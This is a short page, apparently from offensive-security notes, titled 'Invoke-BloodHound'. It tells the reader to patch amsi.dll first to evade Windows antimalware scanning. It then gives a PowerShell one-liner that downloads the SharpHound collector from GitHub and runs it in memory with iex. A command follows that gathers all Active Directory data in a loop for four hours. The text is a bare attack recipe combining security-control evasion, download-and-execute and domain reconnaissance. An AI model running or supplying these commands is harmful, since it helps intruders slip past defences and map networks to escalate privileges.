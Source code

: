 # Invoke-BloodHound
It is recommended to [patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse) first.
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1')
Invoke-BloodHound -Domain <domain> -CollectionMethod All -Loop -LoopInterval 00:05:00 -LoopDuration 04:00:00
```
